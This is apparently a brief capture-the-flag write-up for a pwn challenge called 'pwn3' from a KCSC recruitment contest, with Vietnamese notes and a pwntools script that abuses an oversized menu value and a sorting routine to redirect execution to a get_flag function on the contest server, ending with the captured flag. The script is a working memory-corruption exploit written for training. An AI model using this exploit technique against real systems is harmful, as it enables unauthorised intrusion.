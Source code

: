 ## write up
https://github.com/DoQuangPhu/CTF_writeups/tree/main/KCSCRECRUIT/pwn3/private
## script 
- cách làm của mình hơi khác author 1 tí đó là thay vì leak exe thì mk lợi dụng việc addr get_flag > addition, xóa tất cả các addr khác trong Robot nó sẽ tự động sort get_flag vào addition
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./pwn3")

context.binary = exe

p = process([exe.path])
# gdb.attach(p, gdbscript = '''

# c
# ''')

# input()

p = remote('103.162.14.116', 12003)

p.sendlineafter(b'choice: \n', str(0x100000005))
p.sendlineafter(b'sort? \n', str(1))
for i in range(100):
    p.sendlineafter(b'element: ', str(1))

p.sendlineafter(b'element: ', str(1))
p.sendlineafter(b'element: ', str(1))
p.sendlineafter(b'element: ', b'+')
p.sendlineafter(b'element: ', str(1))
p.sendlineafter(b'element: ', str(1))
p.sendlineafter(b'element: ', b'+')
p.sendlineafter(b'element: ', str(-1))
p.sendlineafter(b'choice: \n', str(1))

p.interactive()

# KCSC{did_you_exploit_via_menu_return_value}
```
## Flag 
KCSC{did_you_exploit_via_menu_return_value}
